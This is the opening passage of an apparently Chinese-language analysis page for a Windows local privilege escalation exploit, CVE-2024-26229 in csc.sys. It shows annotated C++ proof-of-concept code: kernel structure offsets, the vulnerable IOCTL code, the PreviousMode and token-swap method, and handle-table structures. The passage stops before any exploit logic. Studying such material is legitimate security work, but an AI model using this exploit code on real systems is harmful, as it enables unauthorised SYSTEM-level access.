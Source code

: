 ### POC分析

``````cpp
/*
                完整注释版本
-------------------------------------------
漏洞编号:      CVE-2024-26229
环境:          Windows 11 22h2 Build 22621
漏洞类型:      本地提权 (LPE)
目标组件:      csc.sys 驱动程序
利用原理:      利用IOCTL处理不当导致的越界写,修改KTHREAD->PreviousMode,
               随后执行DKOM替换进程令牌获取SYSTEM权限
-------------------------------------------
*/
#include <Windows.h>      // Windows API核心头文件
#include <stdio.h>        // 标准输入输出
#include <winternl.h>     // 访问Windows NT内部API
#include <stdint.h>       // 固定宽度整数类型

// 使用WDK中的ntdllp.lib私有库来直接调用Nt函数,避免使用GetProcAddress动态查找
#pragma comment(lib, "ntdllp.lib")
#define STATUS_SUCCESS 0  // NT_SUCCESS宏使用的成功状态码

// 定义当前进程的伪句柄(-1)
#define NtCurrentProcess() ((HANDLE)(LONG_PTR)-1)

// 内核结构偏移量
#define EPROCESS_TOKEN_OFFSET                   0x4B8  // EPROCESS结构中Token字段的偏移量
#define KTHREAD_PREVIOUS_MODE_OFFSET            0x232  // KTHREAD结构中PreviousMode字段的偏移量

// 漏洞利用的关键IOCTL代码
#define CSC_DEV_FCB_XXX_CONTROL_FILE            0x001401a3  // csc.sys驱动程序中存在漏洞的IOCTL控制码

// 系统信息类型常量
#define SystemHandleInformation                 0x10       // 用于查询系统句柄信息
#define SystemHandleInformationSize             0x400000   // 系统句柄信息的缓冲区大小

// 处理器模式枚举
enum _MODE
{
    KernelMode = 0,  // 内核模式(特权级别0)
    UserMode = 1     // 用户模式(特权级别3)
};

// 系统句柄表条目结构,用于NtQuerySystemInformation API
typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
    USHORT UniqueProcessId;       // 拥有此句柄的进程ID
    USHORT CreatorBackTraceIndex; // 创建回溯索引
    UCHAR ObjectTypeIndex;        // 对象类型索引
    UCHAR HandleAttributes;       // 句柄属性
    USHORT HandleValue;           // 实际句柄值
    PVOID Object;                 // 内核中对象的地址(关键字段)
    ULONG GrantedAccess;          // 授予的访问权限
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, *PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

// 系统句柄信息结构
typedef struct _SYSTEM_HANDLE_INFORMATION
{
    ULONG NumberOfHandles;                    // 系统中总句柄数
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1]; // 可变长度的句柄数组
} SYSTEM_HANDLE_INFORMATION, *PSYSTEM_HANDLE_INFORMATION;

``````